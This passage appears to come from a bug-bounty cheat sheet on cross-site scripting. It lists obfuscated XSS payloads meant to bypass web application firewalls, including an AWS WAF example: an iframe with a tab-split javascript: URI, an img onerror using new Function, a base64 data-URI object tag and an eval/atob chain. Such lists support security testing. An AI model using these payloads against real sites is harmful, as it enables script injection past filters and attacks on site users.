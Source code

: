 ```

<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>

<img/src=q onerror='new Function`al\ert\`1\``'>

<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

7. AWS

```
<script>eval(atob(decodeURIComponent(confirm`1`)))</script>
```

If you want to see the other payload for other WAF, check this [link](https://github.com/0xInfection/Awesome-WAF)

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md#references)

- [Brute Logic](https://brutelogic.com.br/)
- [Awesome-WAF](https://github.com/0xInfection/Awesome-WAF)
- Some random twitter posts
